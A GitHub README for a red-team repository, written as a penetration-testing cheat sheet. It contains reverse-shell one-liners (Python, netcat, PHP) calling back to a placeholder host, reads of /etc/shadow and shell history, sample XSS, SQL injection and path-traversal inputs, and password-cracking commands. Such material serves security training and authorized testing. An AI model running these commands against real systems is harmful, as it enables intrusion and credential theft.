 # 🛠️ Red team tools, tips & tricks

A collection of random custom scripts for penetration testing and red team tasks.

## 📌 Includes

* 🔁 Automation scripts
* 🔍 Reconnaissance tools
* 📡 Scanning utilities
* 💥 Exploitation scripts
* 🩻 Post-exploitation helpers
* 📄 Report generation tools
* 🗒️ Notes & cheat sheets



## 📚 Table of Contents

* [Tips-tricks](#-tips--tricks)
* [Recon & Enumeration](#-recon--enumeration)
* [Exploitation](#-exploitation)
* [Post-Exploitation](#-post-exploitation)
* [Privilege Escalation](#-privilege-escalation)
* [Web Attacks](#-web-attacks)
* [Password Attacks](#-password-attacks)
* [Tools Reference](#-tools-reference)
* [General Notes](#-general-notes)

-----

📂 Repo-Structure
```
red-team-tools/
├── automation/
├── recon/
├── scanning/
├── exploitation/
├── post-exploitation/
├── reporting/
└── README.md/
```

---

## 🌟 Tips & tricks



***Find your public IP address right on the terminal***
```
curl -s wtfismyip.com/json | jq
curl ifconfig.me
```

***Automatically install essential hacking & dev tools on a fresh linux install***

\- [Install tools script](https://github.com/80h3m14n/red-team-tools/blob/main/automation/install-tools.sh)


***Encrypting and decrypting files, directories, and text using multiple encryption algorithms***

\- [Encryptz](https://github.com/80h3m14n/encryptz)



***Change Microsoft windows themes & font type***

1. Reg file(run as admin and reboot)
\- [Segoe Print Font](https://github.com/80h3m14n/red-team-tools/blob/main/utilities/segoe-print-font.reg)


\- You can open the file with notepad and change the font according to your preference.


2. Green Powershell
```
$Host.UI.RawUI.ForegroundColor = 'Green'
```


3. Command Prompt color

\- Navigate to Environmental Variables > New User variable
```
Name: prompt
Value: $E[1;30;104m►$E[1;37;104m $P $E[1;94;40m►$E[0m
```


---

## 🔍 Recon & Enumeration

```bash
# DNS Lookup
dig domain.com any +short
host domain.com

# Subdomain fuzzing
ffuf -w subs.txt -u https://FUZZ.target.com

# Nmap full scan
nmap -p- -T4 -A -v target.com
```

---

## 💥 Exploitation

```bash
# Python reverse shell
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

# Netcat reverse shell
nc -e /bin/sh IP PORT

# PHP reverse shell
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🩻 Post-Exploitation

```bash
# Grab users & creds
cat /etc/passwd
cat /etc/shadow
history

# Network info
ip a
netstat -tulpn

# SUID Binaries
find / -perm -4000 -type f 2>/dev/null
```

---

## 🧱 Privilege Escalation

```bash
# Check kernel for exploits
uname -a
linux-exploit-suggester.sh

# Check sudo rights
sudo -l

# Writable files/directories
find / -writable -type f 2>/dev/null
```

---

## 💬 Web Attacks

```bash
# XSS payload
<script>alert('xss')</script>

# SQL Injection test
' OR '1'='1

# Local File Inclusion
../../../../etc/passwd
```

---

## 🔐 Password Attacks

```bash
# Hashcat basic usage
hashcat -m 0 hash.txt rockyou.txt

# John the Ripper
john --wordlist=rockyou.txt hashes.txt

# Zip password crack
fcrackzip -v -u -D -p rockyou.txt file.zip
```

---

## 🧰 Tools Reference

```bash
# Gobuster
gobuster dir -u http://target.com -w wordlist.txt

# Nikto
nikto -h http://target.com

# Burp Suite
# Set proxy to 127.0.0.1:8080 and route traffic from tools
```




## 📝 General Notes
Check for .bak, .old, .zip files on webservers

Default creds go a long way

Look for dev/test/staging endpoints

Don’t sleep on SSRF, IDOR, or misconfigured cloud buckets

Always verify shell stability (TTY, backgrounding)

Additional resources
\- [Roadmaps](https://roadmap.sh/)

---

## 🧾 License

Free to use, share, and modify under the MIT License.


---

## ⚠️ Disclaimer

This repository is strictly for **educational and research** purposes.
I take **no responsibility** for misuse, illegal activity, or any damage caused by these tools.
**Use responsibly. Don't be dumb.**

